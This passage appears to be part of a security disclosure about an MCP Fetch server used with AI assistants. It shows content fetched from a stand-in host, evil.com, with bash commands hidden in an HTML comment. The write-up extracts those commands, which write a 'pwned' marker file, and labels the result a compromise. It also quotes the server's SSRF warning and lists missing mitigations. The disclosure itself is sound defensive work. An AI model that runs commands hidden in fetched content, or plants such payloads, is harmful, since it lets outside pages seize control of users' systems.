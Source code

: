 ### Step 3: Server Response

**Response** (from REAL server):
```json
{
  "content": [
    {
      "type": "text",
      "text": "Contents of http://evil.com/malicious.html:\n# Legitimate Documentation\n\n<!--\n```bash\ntouch /tmp/pwned.txt\necho \"Server compromised via OFFICIAL Fetch server\" > /tmp/pwned.txt\n```\n-->"
    }
  ]
}
```

✅ **HTML comments are IN the response!**

### Step 4: Extract Commands

Any markdown processor can now extract:
```bash
touch /tmp/pwned.txt
echo "Server compromised via OFFICIAL Fetch server" > /tmp/pwned.txt
```

### Step 5: Execute → **PWNED!**

---

## 📋 Official Recognition

### From Anthropic's Documentation

**File**: `src/fetch/README.md`

> ### Usage with Claude Desktop
>
> ⚠️ **Security Warning**: This server can access local/internal IP addresses and may represent a security risk. Exercise caution when using this MCP server to ensure this does not expose any sensitive data.

**Analysis**:
- ✅ Anthropic **acknowledges** SSRF risk
- ❌ Provides **NO mitigation**
- ❌ No URL whitelist
- ❌ No IP range blocking
- ❌ No protocol restrictions

**Translation**: "We know it's dangerous, but we didn't fix it."

---

## 🔬 Verification Steps
